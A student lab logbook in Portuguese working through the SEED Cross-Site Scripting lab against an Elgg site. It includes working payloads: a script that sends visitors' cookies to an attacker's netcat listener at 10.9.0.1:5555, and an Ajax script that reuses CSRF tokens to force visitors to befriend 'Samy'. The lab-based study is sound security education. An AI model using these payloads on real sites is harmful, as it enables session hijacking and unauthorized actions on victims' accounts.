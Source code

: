 # Trabalho realizado nas Semanas #7 e #8

## Task 1 - Mostrar uma janela de alerta  
O guião fornece-nos uma lista de utilizadores registados. **Para as tarefas 1 a 3, vamos usar o utilizador 'alice'**. Tal como descrito no guião, editamos o perfil da Alice e escrevemos o seguinte código na sua descrição:

```
<script>alert('XSS');</script>
```

Agora, qualquer utilizador, mesmo que não registado, pode abrir o perfil da Alice e deparar-se com a mensagem gerada pelo código anterior.  

![alt text](../img/logbook7-img1.png)  
*Figura 1 - mensagem de alerta*  

Podemos então concluir que a aplicação web é potencialmente vulnerável a ataques por Cross-Site Scripting (XSS).

## Task 2 - Mostrar os cookies do utilizador
De modo semelhante, podemos variar o código para mostrar os cookies de qualquer utilizador que visite o perfil da Alice. O código injetado será:

```
<script>alert(document.cookie);</script>
```

Novamente, é mostrada uma mensagem para qualquer pessoa que visite o perfil da Alice, agora contendo informação sobre os seus cookies.

![alt text](../img/logbook7-img2.png)  
*Figura 2 - mensagem com cookies* 

## Task 3 - Obter os cookies de outro utilizador
Para esta tarefa, vamos usar também o netcat, que irá estar à espera de uma conexão numa porta TCP, porque o código que vamos injetar vai capturar os cookies de outro utilizador e enviar para o atacante nessa porta. O código é o seguinte:

```
<script>document.write('<img src=http://10.9.0.1:5555?c='
+ escape(document.cookie) + ' >');
</script>
```

Colocámos o código algures no perfil da Alice, para que quando um utilizador abri-lo, o atacante recebe os seus cookies com o netcat, cujo output será semelhante ao seguinte:

![alt text](../img/logbook7-img3.png)  
*Figura 3 - cookies capturados pelo atacante*  

## Task 4 - Tornar-se amigo da vítima  
O objetivo deste ataque é forçar um pedido para que um utilizador que visite o perfil de outro utilizador se torne automaticamente amigo desse utilizador. Para executar o ataque, temos de perceber como é que um pedido legítimo é feito na aplicação web.  

O guião dá uma estrutura para o código JavaScript a ser injetado:
``` js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl=...; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
Recorrendo à ferramenta de inspeção de HTTP do Firefox, simulamos o caso em que a Alice adiciona o Samy como amigo. O pedido HTTP foi o seguinte:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg

Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=0c46gu6j7of5ccrlstgt1jmv4o
```

Vamos analisar a estrutura do URL do pedido:
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg
```

O URL contém o ID do utilizador a adicionar como amigo. Como é o ID do Samy, iremos precisar desta informação.  
A aplicação web também usa tokens de segurança para validar o pedido, pelo que também serão necessários para construir o código malicioso, daí a criação de duas variáveis para passar os tokens e o pedido ser validado.  

O código final é o seguinte:  
``` js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Desta vez, vamos usar o utilizador Charlie para testar o ataque. O Charlie visita o perfil do Samy e, se o código funcionar, adiciona automaticamente o Samy como amigo. Como é possível verificar na imagem seguinte, o código funcionou:

![alt text](../img/logbook7-img4.png)  
*Figura 4 - ataque que adiciona o Samy como amigo*  

**Pergunta 1: qual o propósito das variáveis ts e token no código?**  
Como referido anteriormente, a aplicação web utiliza dois tokens de segurança que mudam a cada pedido, por isso não podemos colocar quaisquer tokens diretamente na variável sendurl. Para usar os tokens corretos para o pedido, é necessário capturar em tempo real os seus valores específicos ao pedido e guardá-los em variáveis. Na variável sendurl, usamos essas duas variáveis ao invés de strings fixas passadas diretamente, que fariam com que o pedido não fosse considerado como legítimo e, consequentemente, que ataque não funcionasse.

**Pergunta 2: o ataque funcionaria mesmo que o campo "About Me" não tivesse o modo Text?**  
Não, porque o modo Editor codifica os caracteres "<" e ">" no HTML, o que inviabiliza o ataque. Para o ataque funcionar, é necessário usar o modo Text, que escreve o input tal como está para o HTML.
